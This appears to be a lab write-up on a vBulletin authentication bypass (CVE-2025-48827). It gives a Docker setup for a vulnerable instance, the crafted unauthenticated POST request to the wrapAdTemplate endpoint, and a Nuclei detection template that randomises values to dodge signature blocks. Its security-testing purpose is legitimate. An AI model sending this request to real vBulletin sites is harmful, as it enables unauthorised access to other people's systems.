 # CVE-2025-48827: vBulletin - Authentication Bypass

## Description:
vBulletin 5.0.0 through 5.7.5 and 6.0.0 through 6.0.3 allows unauthenticated users to invoke protected API controllers' methods when running on PHP 8.1 or later, as demonstrated by the /api.php?method=protectedMethod pattern, as exploited in the wild in May 2025.

## Reference:
- https://karmainsecurity.com/dont-call-that-protected-method-vbulletin-rce
- https://nvd.nist.gov/vuln/detail/CVE-2025-48827
- https://blog.kevintel.com/vbulletin-replaceadtemplate-kev/

## Vulnerable Setup:

- Unzip html.zip 

- Execute the following commands to start a vBulletin:

```
docker compose up -d
```

- After the server is started and database is restored, browse to http://localhost:8081/ for php 8.1 version.


## Exploitation Steps:

- The authentication bypass can be triggered by sending a crafted POST request to the `/ajax/api/ad/wrapAdTemplate` endpoint with arbitrary values for the `template` and `id_name` parameters (e.g., template=uxdml&id_name=oszde), allowing unauthenticated users to invoke protected ad-related methods in vulnerable vBulletin instances running on PHP 8.1 or later.

<img width="2800" height="976" alt="image" src="https://github.com/user-attachments/assets/30fc1de3-5a96-4510-af01-a80807e8fe6d" />

# Steps to Write Nuclei Template

**Define Variables**

- To evade detection and avoid caching or signature-based blocks, use dynamic values in the request:

```
variables:
  rand_string: "{{to_lower(rand_base(5))}}"
  rand_value: "{{to_lower(rand_text_alpha(5))}}"
```

**Create HTTP Requests**

- The authentication bypass occurs by sending a crafted unauthenticated POST request to the vulnerable endpoint. This allows invocation of protected methods without proper access control on affected vBulletin versions running PHP 8.1.

```yaml
http:
  - raw:
      - |
        POST /ajax/api/ad/wrapAdTemplate HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        template={{rand_string}}&id_name={{rand_value}}
```

**Matchers Definition**

- To confirm successful exploitation of the authentication bypass, ensure the response satisfies the following conditions:

  - **Status Code:** The server must return `200 OK`, indicating the request was accepted.

  - **Content-Type:** The response should be in JSON format (`application/json`), suggesting a valid backend response.

  - **Response Body:** The response should include:

      - A reference to the random `id_name` in the form of `ad_{{rand_value}}_inner`

      - The template value injected (`{{rand_string}}`)

      - A partial HTML-like pattern (`<div class=`), indicating dynamic template rendering.

```yaml
    matchers:
      - type: dsl
        dsl:
          - status_code == 200
          - contains(content_type, 'application/json')
          - contains_all(body,'<div class=','ad_{{rand_value}}_inner','{{rand_string}}')
        condition: and
```

## Nuclei Template URL : [CVE-2025-31161](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2025/CVE-2025-48827.yaml)

## Nuclei Command :

```bash
nuclei -u http://0.0.0.0:8081 -id CVE-2025-48827 -vv
```

<img width="1390" height="566" alt="image" src="https://github.com/user-attachments/assets/deb3ec0c-f6b3-4108-a427-60443c38463a" />
